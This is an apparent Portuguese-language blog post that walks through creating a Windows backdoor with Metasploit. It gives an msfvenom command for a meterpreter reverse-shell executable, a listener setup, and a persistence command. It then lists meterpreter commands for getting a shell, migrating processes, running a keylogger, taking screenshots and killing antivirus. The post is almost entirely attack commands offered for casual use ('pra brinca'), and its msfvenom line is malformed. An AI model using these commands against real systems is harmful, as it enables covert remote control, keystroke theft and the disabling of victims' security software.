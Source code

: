 ```yaml
---
layout: post
title: Criando BackDoor no Windowns
date: 2016-07-12T14:54:44.000Z
---
```

<img src='/images/fulls/back.jpg' class="fit image">

-Comandos para criar a backdoor:

```msfvenom -p windows/meterpreter/reverse_tcp 192.168.0.104LHOST=(SeuIP) LPORT=443 -f exe > /root/Desktop/shell.exe```

-Comandos para configurar o modo Listening:

```
msfconsole

use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp

set lhost (Seu IP)

set lport 443

```
exploit

-Comando manutenção de acesso:

```run persistence -A -X -i 60 -p 443 -f (Seu IP)```

Comandos do  meterpreter pra brinca 

Para obter ajuda das funções do Meterpreter.
```meterpreter > help```

Para finalizar a sessão e sair do Meterpreter.
```meterpreter > exit```

Ás vezes sera necessauro manter a sessão ativa do Meterpreter  para outras finalidades, 
para usar um modulo auxiliar por exemplo.
```metrpreter > background```

Migrar para outro processo:
```meterpreter > run migrate -f```

Obter shell:
```meterpreter > shell```

Executar um programa:
```execute -f calc.exe```

Keylogger:
 
 

 ```
meterpreter > keyscan_start INICIA O KEYLOGGER
meterpreter > keyscan_dump EXIBE AS TECLAS DIGITADAS
meterpreter > keyscan_stop FINALIZA O KEYLOGGER
 ```
Captura de tela.

```meterpreter > screenshot```

Finalizar processo de antivirus.

```meterpreter > run killav```

<a href="https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/">Mais comandos.</a>


